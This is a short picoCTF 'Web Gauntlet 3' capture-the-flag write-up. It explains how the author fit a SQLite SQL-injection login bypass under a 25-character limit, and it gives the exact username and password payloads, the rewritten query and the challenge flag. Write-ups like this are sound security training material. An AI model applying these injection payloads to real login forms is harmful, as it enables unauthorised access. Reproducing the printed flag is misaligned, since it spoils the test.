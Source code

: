 ## Description
Last time, I promise! Only 25 characters this time. Log in as admin Site: http://mercury.picoctf.net:8650/ Filter: http://mercury.picoctf.net:8650/filter.php

### Hints
- Each filter is separated by a space. Spaces are not filtered.
- There is only 1 round this time, when you beat it the flag will be in filter.php.
- sqlite

## Tools I Used
- None

## Thought Process
This challenge looked identical to [Web Gauntlet 2](https://github.com/shari09/ctf-writeups/tree/master/picoCTF2021/Web-Gauntlet-2) so I just tried out the same injection.

Injection:
```
username: admi'||'n'||substr(
password: ,0,0)||'
```

Uh oh, this time it had a 25 character limit, so I had to come up with a new query. However, after I looked through all the string functions SQLite has, I realized `substr()` was the only one that trimmed based on position and length. :(

Original query:\
<code>SELECT username, password FROM users WHERE username=<mark>'admi'</mark>||<mark>'n'</mark>||<mark>substr(' AND password=',0,0)</mark>||<mark>''</mark></code>

Then I realized, wasn't 2 characters just one less `||`, so I moved  `'n'` to be after the `substr(...)`, eliminating <code>'admi'||'n'<mark>||</mark>subst</code>.

Thus the new query:\
<code>SELECT username, password FROM users WHERE username=<mark>'admi'</mark>||<mark>substr(' AND password=',0,0)</mark>||<mark>'n'</mark></code>


Injection:
```
username: admi'||substr(
password: ,0,0)||'n
```
totalling 23 characters

\
Again, it gave me the response of `Congrats! You won! Check out filter.php`. So I navigated there, refreshed, and saw the flag.


## Flag
`picoCTF{k3ep_1t_sh0rt_6fdd78c92c7f26a10acd3ece176dea4d}`
